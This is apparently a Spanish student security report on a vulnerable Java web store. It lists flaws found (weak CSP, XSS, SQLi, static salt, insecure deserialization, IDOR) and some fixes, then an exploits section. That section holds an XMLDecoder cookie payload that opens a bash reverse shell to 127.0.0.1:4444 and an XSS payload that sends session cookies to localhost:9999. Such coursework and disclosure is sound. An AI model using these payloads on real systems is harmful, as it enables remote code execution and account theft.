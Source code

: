 ###### por Sergio Luaces Martín, Diego Dopazo García y Aarón García Filgueira

# Vulnerabilidades encontradas:

- CPS
	  Se ha encontrado que la CSP era demasiado permisiva.
	  Se ha solucionado aumentando las restricciones de dicha Content Security Policy:
	```java
	public class CSPInterceptor implements HandlerInterceptor {  
	      
	    @Override  
	    public boolean preHandle(HttpServletRequest request, 
							    HttpServletResponse response, 
							    Object handler)  
	        throws Exception {  
	        response.setHeader("Content-Security-Policy",   
	            "default-src 'self'; " +              //solo recursos de mi origen  
	            "img-src 'self' data:; " +         //solo imagenes de mi dominio  
	            "script-src 'self' 'unsafe-inline'; " +       //solo js de mi app  
	            "style-src 'self' 'unsafe-inline';"+      //solo css de mi dominio  
	            "object-src 'none';"+ //prohibe el uso de flash, java applets, etc  
	            "base-uri 'self'; "+               //prohibe que cambien la uri  
	            "connect-src 'self'; "+       //prohibe AJAX fuera de mi dominio  
	            "frame-ancestors 'none';"+        //prohibe clickjacking  
	            "form-action 'self';");           //solo envia forms a mi dominio  
	        return true;  
	    }       
	}	  
	```  
	 
- XSS en el login
		Se ha detectado que en varios casos donde se permite al usuario iniciar sesión, poniendo los tags de script, se puede ejecutar código arbitrario.
		Aparte de en el caso del login, también ocurre en otros casos donde se le permite al usuario escribir texto.
		Se ha solucionado...
- SQLi en el login
- File upload en la foto de perfil
		Se ha detectado que se pueden subir ficheros maliciosos que no son necesariamente imágenes en la opción de "subir una imagen de perfil", provocando que puedan ejecutarse scripts, entre otros.
		Se ha solucionado usando PngReader de la librería pngj haciendo que se compruebe que lo que se pase como fichero adjunto en la foto de perfil es realmente un fochero PNG. Esto se consigue analizando el cuerpo entero del fichero.
- Bussines logging en el precio a la hora de pagar
- Information disclosure (Los errores que se muestran en la página)
- Insecure Deserialization (cookie: user-info)
- Access control (puedes comentar sin haber comprado el producto)
- Validacion de datos en la capa modelo (usuario)
- Validación de datos en formularios
- Exposición de información sensible
- Vulnerabilidad en la autenticacion: contraseña muy simple (no mandado)
- Vulnerabilidad en la autenticacion: hash con salt estático 
	 Se ha detectado que en src/main/java/es/storeapp/business/services/UserService.java, existe una variable SALT definida estáticamente 
	```java
	- private static final String SALT = "$2a$10$MN0gK0ldpCgN9jx6r0VYQO"; 
	````
	 Que es usada en la generación del hash de la contraseña de un usuario:
```java
	  User user = userRepository.findByEmailAndPassword(email, BCrypt.hashpw(clearPassword, SALT));
```
    Esto provoca un fallo serio ya que se puede sitinguir donde acaba el hash de la contraseña y donde empieza el salt, permitiendo descubrir la contraseña a base d efuerza bruta probando operaciones hash en diferentes contraseñas hasta que coincida.
	Se ha solucionado generando un salt de manera aleatoria usando esta función:
````java
String hashedPassword = BCrypt.hashpw(password, BCrypt.gensalt());

        User user = userRepository.create(new User(name, email, hashedPassword, address, image));
````
- Open Redirect en el flujo de autenticación, concretamente en el parámetro next de /login?next=...  
- IDOR (Insecure Direct Object Reference) en el endpoint /orders/{id}.

# Exploits

## Reverse shell usando la vulnerabilidad de deserialización insegura en la cookie `user-info`

### Vulnerabilidades explotadas

- Deserialización insegura
### Exploit

Para llevar a cabo este exploit es necesario no tener la sesión iniciada. 
Lo primero es poner un listener con netcat de la siguiente forma: `nc -nlvp 4444` y luego hay que crear el payload codificando el siguiente XML en Base64:

```xml

<?xml version="1.0" encoding="UTF-8"?>

<java version="1.8.0" class="java.beans.XMLDecoder">

  <!-- 1) Ejecuta ProcessBuilder primero -->

  <object class="java.lang.ProcessBuilder">

    <array class="java.lang.String" length="3">

      <void index="0"><string>/bin/bash</string></void>

      <void index="1"><string>-c</string></void>

      <void index="2">

        <string>bash -i &gt;&amp; /dev/tcp/127.0.0.1/4444 0&gt;&amp;1</string>

      </void>

    </array>

    <void method="start"/>

  </object>

  

  <!-- 2) Devuelve un UserInfo válido para que el cast funcione -->

  <object class="es.storeapp.web.cookies.UserInfo">

    <void property="email"><string>victim@example.com</string></void>

    <void property="password"><string>password</string></void>

  </object>

</java>

```

Tras esto, creamos una cookie llamada `user-info` y como valor le asignamos el código anterior en Base64 como se muestra en la imagen:

![user-info](./img/cookie_user_info.png)

Una vez hecho esto, se realiza cualquier acción en la aplicación (por ejemplo, ir a otra pestaña, recargar la página, etc.) y aparecerá un error en la página web. Si entonces vamos al terminal con nuestro listener escuchando veremos que se ha establecido una conexión remota con usuario de acceso el que está ejecutando la aplicación.

![nc](./img/rev_shell_prove.png)

> (Cabe destacar que en este caso el terminal de nc se ve extraño debido a que la conexión va desde localhost a localhost.)
---
## Mediante XSS obtener cookies de usuarios autenticados y usar su cuenta para comprar productos y enviarlos a una dirección maliciosa

### Vulnerabilidades explotadas

- XSS
- Control de acceso (Access Control)
- Fallo en la validación de datos

### Exploit

Para llevar a cabo este exploit necesitaremos el siguiente payload JavaScript:

```javascript

<script>new Image().src='http://localhost:9999/exploit?c='+encodeURIComponent(document.cookie)</script>

```

Este payload se puede insertar en un comentario de cualquier producto (aunque no lo hayamos comprado) explotando una vulnerabilidad en el control de acceso, como se ve en la imagen:

![xss](./img/insert_xss.png)

Cuando un usuario visualice los comentarios de este producto, el XSS enviará la cookie `JSESSIONID` al servidor atacante, donde tendremos un script escuchando en el puerto TCP 9999.

Este script se encarga de, cuando recibe la petición con la cookie, añadir productos al carrito y comprarlos con un valor de **1 euro**, aprovechando un fallo en la validación de datos (la suma solo se calcula en el frontend, no en el backend). 
Vale la pena recalcar que en este ejemplo el único producto que se compra es el ID 3, pero se podría modificar de manera sencilla para comprar cualquier producto deseado.

En la siguiente imagen se ve cómo llega una petición a nuestro servidor después de que la víctima vea la reseña:

![peticion](./img/peticion_server.png)

Para finalizar, en las siguientes imágenes se puede ver que el exploit funcionó: la primera muestra el perfil de la víctima y la segunda la confirmación del pedido; donde se observa que el precio es de tan solo 1€ y que la dirección ha sido sustituida:

  
![perfil](./img/victim_profile.png)

![exploit_2_prueba](./img/prueba_exploit_dos.png)
